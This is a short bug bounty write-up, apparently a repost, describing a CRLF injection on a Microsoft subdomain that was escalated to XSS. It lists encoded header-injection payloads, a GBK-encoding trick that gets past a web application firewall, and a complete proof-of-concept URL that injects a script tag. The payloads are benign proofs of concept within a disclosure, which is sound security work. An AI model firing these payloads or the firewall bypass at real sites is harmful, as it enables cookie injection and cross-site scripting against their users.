


# $6000 with Microsoft Hall of Fame ⚔️

1. Let’s test for the most ignored vulnerability CRLF INJECTION
<br>&nbsp;

2. I tried with some different payloads, but I was only getting “400 Bad Request”
```
%0D%0A%20Set-Cookie:whoami=thecyberneh
%20%0D%0ASet-Cookie:whoami=thecyberneh
%0A%20Set-Cookie:whoami=thecyberneh
%2F%2E%2E%0D%0ASet-Cookie:whoami=thecyberneh
```
&nbsp;

3. I did little research and got some unique encoding called “GBK encoding”. so after URL encoding, I crafted and tried a new payload like this:
```
https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:crlfinjection=thecyberneh
```
And Boom!!!<br>

<br>&nbsp;

4. CRLF TO XSS with Firewall Bypass
```
ENCODING
“<” --> 嘼 --> %E5%98%BC
“>” --> 嘾 --> %E5%98%BE
https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:whoami=thecyberneh%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%BCscript%E5%98%BEalert(1);%E5%98%BC/script%E5%98%BE
```



## Credit
Based on [Neh Patel](https://infosecwriteups.com/6000-with-microsoft-hall-of-fame-microsoft-firewall-bypass-crlf-to-xss-microsoft-bug-bounty-8f6615c47922)'s writeup.
<br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"></a>
